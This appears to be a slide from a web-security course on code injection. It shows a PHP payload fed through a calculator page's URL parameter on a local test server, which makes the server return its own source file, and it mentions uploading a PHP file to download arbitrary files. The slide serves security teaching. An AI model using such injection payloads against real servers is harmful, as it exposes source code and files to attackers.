

# Code Injection -Example
Here we simply create a header for the HTTP response and send the appropriate data.  Note the use of “application/octet-stream”.
To avoid problems with <CR> characters, paste this code into a text editor and remove them turning it into a single line.  Then feed it to the application on the URL line. https://127.0.0.1/calc.php?calcthis=<code from below>
It’s worth pointing out that we could have used the exec trick to upload a PHP file to the server which allows us to download any file.  There is always more than one way to attack a system!

 header('Content-Description: File Transfer');
 header('Content-Type: application/octet-stream');
 header('Content-Disposition: attachment; filename='.basename('calc.php'));
 header('Content-Transfer-Encoding: binary');
 header('Content-Length: ' . filesize('calc.php'));
 ob_clean();
 flush();
 readfile('calc.php');